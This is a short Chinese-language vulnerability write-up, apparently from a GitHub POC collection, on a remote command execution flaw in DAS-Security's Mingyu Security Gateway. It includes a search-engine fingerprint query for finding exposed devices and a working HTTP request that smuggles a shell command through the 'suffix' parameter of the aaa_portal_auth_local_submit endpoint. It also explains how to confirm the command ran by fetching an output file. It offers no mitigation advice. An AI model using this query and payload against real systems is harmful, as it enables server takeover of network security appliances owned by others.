



# 安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

## 漏洞描述

安恒 明御安全网关 aaa_portal_auth_local_submit 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

安恒 明御安全网关

## 网络测绘

```
body="/webui/images/basic/login/" && title=="明御安全网关"
```

## 漏洞复现

登录页面



验证POC

```
GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix={{urlenc(`id >/usr/local/webui/test.txt`)}} HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```



```
/test.txt
```

